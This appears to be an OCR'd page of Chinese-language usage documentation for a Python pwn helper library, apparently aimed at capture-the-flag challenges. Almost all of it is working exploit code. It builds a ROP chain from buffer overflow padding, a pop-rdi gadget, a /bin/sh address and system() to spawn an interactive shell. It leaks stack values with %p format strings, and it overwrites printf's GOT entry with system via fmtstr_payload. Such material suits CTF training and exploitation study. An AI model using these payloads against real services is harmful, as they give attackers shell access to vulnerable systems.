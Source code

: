 # ROP链
```
payload = b"A" * 64
payload += p64(ph.find_gadget(["pop rdi", "ret"])[0])
payload += p64(binsh)
payload += p64(system)

ph.sl(payload)
ph.interactive()
```



# 格式化字符串漏洞

```
from lazypwn import PwnHelper

ph = PwnHelper("./fmt_chall")
ph.connect()
```



# 泄露栈地址
```
ph.sl(b"%p.%p.%p.%p.%p")
data = ph.ru(b"\n")
print(f"Stack leaks: {data}")
```



# 改写GOT表
```
payload = fmtstr_payload(6, {ph.got("printf"): ph.plt("system")})
ph.sl(payload)
ph.sl(b"/bin/sh")
ph.interactive()
```



# 常见问题

```
Q: 如何判断是否远程连接？

A: 使用 ph.is_remote 属性：
python

if ph.is_remote:
    print("远程连接")
else:
    print("本地进程")
```
